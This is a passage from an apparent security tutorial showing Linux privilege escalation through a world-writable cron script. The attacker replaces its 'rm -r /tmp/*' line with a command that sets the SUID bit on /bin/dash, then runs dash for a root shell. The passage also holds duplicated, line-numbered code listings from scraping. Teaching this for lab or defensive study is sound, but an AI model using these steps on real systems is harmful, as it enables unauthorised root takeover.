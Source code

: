 ls

date

Cool!! It is working, as you can see all file has been deleted after two minutes.  
![](https://i1.wp.com/3.bp.blogspot.com/-efJ83a3Zbcs/WykmE25DBZI/AAAAAAAAXb8/dw6etrJocXgoJl0k9wY0a7KBS6GZGKwCgCLcBGAs/s1600/4.png?w=687)  

### **Post Exploitation**

Start your attacking machine and first compromise the target system and then move to privilege escalation stage. Suppose I successfully login into the victim’s machine through ssh and access non-root user terminal. Execute the following command as shown below.  

cat /etc/crontab ls  -al /tmp/cleanup.py cat /tmp/cleanup.py

1

2

3

cat  /etc/crontab

ls   \-al  /tmp/cleanup.py

cat  /tmp/cleanup.py

From the above steps, we notice the crontab is running python script every two minutes now let’s exploit.  
![](https://i2.wp.com/1.bp.blogspot.com/-z-AQEhD1zYg/WykmFOiMmaI/AAAAAAAAXcA/DKQ4peEIbvIw1B84Mz3IDCFqrDF6smKBgCLcBGAs/s1600/5.png?w=687)  
There so many methods to gain root access as in this method we enabled SUID bits /bin/dash. It is quite simple, first, open the file through some editor, for example, nanocleanup.py and replace **“rm -r /tmp/\*”** from the following line as given below  

os.system('chmod u+s /bin/dash')

1

os.system('chmod u+s /bin/dash')

![](https://i0.wp.com/2.bp.blogspot.com/-FVDUH1wvGwg/WykmFxe8uvI/AAAAAAAAXcE/lPJLQOnXbywR3C-9yV-C9l-95slI5hHfwCLcBGAs/s1600/6.png?w=687)  
After two minutes it will set SUID permission for /bin/dash and when you will run it will give root access.  

/bin/dash id whoami

1

2

3

/bin/dash

id

whoami

Awesome!! We hit the Goal…………………  
![](https://i2.wp.com/4.bp.blogspot.com/-Ej0k9dtN8hw/WykmGNxgjTI/AAAAAAAAXcM/E8f-I3w0QqE21tPJsXRK1bjbO8vQAidiQCLcBGAs/s1600/7.png?w=687)  
